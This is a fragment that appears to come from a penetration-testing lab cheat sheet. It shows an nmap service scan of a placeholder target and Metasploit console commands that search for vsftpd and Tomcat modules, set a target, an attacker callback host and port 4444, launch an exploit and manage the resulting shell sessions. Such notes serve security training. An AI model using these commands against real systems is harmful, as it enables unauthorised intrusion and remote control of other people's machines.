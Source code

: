 # Quick verify after revert
nmap -Pn TARGET_IP -p 21,22,23,80,8080 -sV

9. Quick msfconsole handy commands
# Start quietly
sudo msfconsole -q

# Search modules
search vsftpd
search tomcat

# Show module options
show options

# Set & run
set RHOSTS TARGET_IP
set LHOST ATTACKER_IP
set LPORT 4444
exploit

# Manage sessions
sessions -l          # list
sessions -i <id>     # interact
sessions -k <id> 
